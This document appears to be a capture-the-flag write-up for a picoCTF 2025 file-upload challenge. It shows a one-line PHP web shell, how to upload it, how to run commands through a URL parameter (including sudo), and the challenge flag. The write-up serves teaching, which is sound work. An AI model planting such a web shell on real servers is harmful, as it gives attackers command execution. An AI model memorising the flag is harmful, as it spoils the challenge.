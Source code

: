 # :briefcase: n0s4n1ty 1

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2025`
- **Tag**: `browser_webshell_solvable`
- **Author**: `Prince Niyonshuti N.`
- **Date**: `19/05/2025`

---

# :pencil: Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory. You can access the web application here!

---

# :hammer_and_wrench: Solution

1. Access the link

    ![image1](images/image1.png)

2. Try uploading any file

    ![image2](images/image2.png)

3. Because the file upload functionality is written in PHP (as seen in the page source), we will try writing a PHP script that allows executing system commands

    ```php
    <?php system($_GET["command"]); ?>
    ```
    
    Save to PHP file

4. Upload that file to website `>` Access that file via the displayed path

    ![image3](images/image3.png)

    Because we haven't entered parameter yet,it will displayed like that `>` Enter the URL with `?command=ls`

    ![image4](images/image4.png)

    So it works `>` Okay, since our flag is located in the `/root` directory, enter `sudo ls /root`

    ![image5](images/image5.png)

    Read it

    ![image6](images/image6.png)

---

# :white_flag: Flag

> picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}

---

# :writing_hand: Notes

1. `system` — Execute an external program and display the output.
2. File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.

---

# :books: Resources

1. [PHP: system - Manual](https://www.php.net/manual/en/function.system.php)
2. [File uploads | Web Security Academy](https://portswigger.net/web-security/file-upload)
3. [File Upload Vulnerabilities: Advanced Exploitation Guide](https://www.intigriti.com/researchers/blog/hacking-tools/insecure-file-uploads-a-complete-guide-to-finding-advanced-file-upload-vulnerabilities)

